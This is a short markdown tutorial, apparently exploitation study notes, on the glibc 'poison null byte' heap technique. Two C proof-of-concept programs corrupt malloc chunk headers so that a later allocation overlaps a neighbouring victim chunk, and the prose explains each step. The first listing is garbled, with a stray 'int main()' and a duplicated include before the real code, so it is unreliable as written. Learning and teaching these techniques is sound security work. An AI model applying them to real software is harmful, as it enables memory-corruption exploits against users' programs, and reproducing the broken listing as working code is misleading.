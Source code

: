 # Poison null byte
> LongChampion, 16/03/2020

# Simple version: arbitrary overwrite
In this simple sersion, we can overwrite next chunk header with any content because of an overflow, let see what will happen:
```
#include <stdlib.h>

int main()
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);
    void *c = malloc(0x100 - 8);

    struct Chunk *b_header = (struct Chunk *) (b - 0x10);
    b_header->size = 0x200 | PREV_INUSE;

    struct Chunk *f_header = (struct Chunk *) (b + 0x200 - 0x10);
    f_header->size = 0x200 | PREV_INUSE;

    free(b);
    b = malloc(0x200 - 8);
}
```
First, we overflow chunk `a` to set size of chunk `b` to 0x200 | 0x1. We must set PREV_INUSE flag or `free` will merge chunk `b` with chunk `a` when chunk `b` is freed. Then, we create a fake chunk at offset 0x200 behind chunk `b`. This size fake chunk must equal to fake size of chunk `b` (it's is 0x200 in the code above). Again, the PREV_INUSE flag is also necessary: you can free a chunk if is not in use. The chunk `c` very inportant: it is both the victim chunk to be overlapping and the "pivot" chunk to prevent chunk `b` from becoming the top_chunk, which we can not free.  
Finally, free chunk `b`, it will be pushed to smallbin of size 0x200. When we call `malloc(0x200 - 8)`, we recieve chunk `b` again but with BIGGER SIZE and we are able to overwrite to chuck `c`.

# Reality version: only one nullbyte overflow
This error is common but is harder to exploit.
```
#include <stdlib.h>
#include <malloc.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x210 - 8);
    void *c = malloc(0x100 - 8);

    free(b);

    *(char *) (a + malloc_usable_size(a)) = 0x00;
    struct Chunk *f_chunk = (struct Chunk *) (b + 0x200 - 0x10);
    f_chunk->pre_size = 0x200;

    void *b1 = malloc(0x100 - 8);
    void *b2 = malloc(0x60 - 8);

    free(b1);
    free(c);

    b = malloc(0x400 - 8);
}
```

> I highly recommend read [this](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf) for visualization of this attack.

This attack is very similar to the last one except the followings:
- We modify chunk `b` AFTER it have been freed.
- The nullbyte DECREASE size of chunk `b` (0x00 is the smallest byte lol)
- The size of chunk `b1` must strictly LARGER than max size of fastbin
- After `free(c)`, chunk `b` is top_chunk, so any malloc with size larger than size of last_remeaning_chunk will return `b`. (last_remeaning_chunk is the chunk remain in unsorted_bin when we call allocate `b2`)

## NOTE
- **DON'T MAKE YOUR LIFE OBSTRUCT BY YOURSELF**:  
    In simple version, we set
    > `f_chunk->size = 0x200 | PREV_INUSE`

    but in reality version, we set
    > `f_chunk->pre_size = 0x200`.
- This attack doesn't work against tcache_bin and fastbin because their mechanism are different from smallbin mechanism.
